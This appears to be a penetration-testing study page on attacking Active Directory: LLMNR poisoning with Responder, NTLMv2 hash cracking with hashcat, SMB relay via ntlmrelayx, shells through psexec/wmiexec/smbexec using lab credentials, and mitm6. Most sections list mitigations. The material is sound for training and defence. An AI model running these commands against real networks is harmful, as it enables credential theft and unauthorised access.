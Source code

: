 ```yaml
---
description: Hacking Active directory
---
```


# Responder / SMB Relay

### LLMNR Poisoning

DNS or NBT-NS. Responds with NTLMv2 hash.

`responder -I eth0 -rdwv`

`hashcat -m 5600 hashes.txt rockyou.txt`

Mitigation:

* Disable LLMNR

  Local Computer Policy &gt; Computer Configuration &gt; Administrative Templates &gt; Network &gt; DNS Client in the Group Policy Editor&gt; "Turn OFF Multicast Name Resolution" 

* Disable NBT-NS

  Network Connections &gt; Network Adapter Properties &gt; TCPv4 Properties &gt; Advanced tab &gt; WINS tab &gt; select "Disable NetBIOS over TCP/IP"

\(Else\)

* Require Network Access Control
* Strong user passwords &gt; 14 characters and limit common word usage.

### SMB Relay

SMB signing must be disabled on target.

We can scan if host has SMB signing disabled using nessus, smbsign, nmap etc. Below is an namp scan result example where the SMB signing is 'not required' and can perform relay attacks on

```text
nmap --script=smb2-security-mode.nse -p445 192.168.42.0/24

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
```

Steps:

1. write target ip address to `targets.txt`
2. Config responder to turn off 'HTTP' and 'SMB' to prevent responding to these protocols `/usr/share/responder/Responder./conf`
3. Use `ntlmrelayx.py -tf targets.txt -smb2support`

Mitigation:

* Enable SMB signing on all
  * pro: completely stops attacks. 
  * con: causes performance issues with file copying
* Disable NTLM auth
  * pro: completely stops attacks
  * con: if kerberos stop working, windows default back to NTLM
* Account tiering
  * pro: Limits domain admins to specific tasks
  * con: enforicing policy may be difficult
* Local admin restriction
  * pro: prevents alot lateral movements.
  * con: potentially increase in amount of service desk tickets

### SMB gaining shell access

```bash
# Impacket
psexec.py adhacking.local/saul:Password123@192.168.42.139

# Wmiexec
wmiexec.py adhacking.local/saul:Password123@192.168.42.139

# Smbexec
smbexec.py adhacking.local/saul:Password123@192.168.42.139

# Metasploit
exploit(windows/smb/psexec) > 

```

### IPv6 Attacks

mitm6 [https://github.com/fox-it/mitm6](https://github.com/fox-it/mitm6)

`mitm6 -d adhacking.local`

relay attack

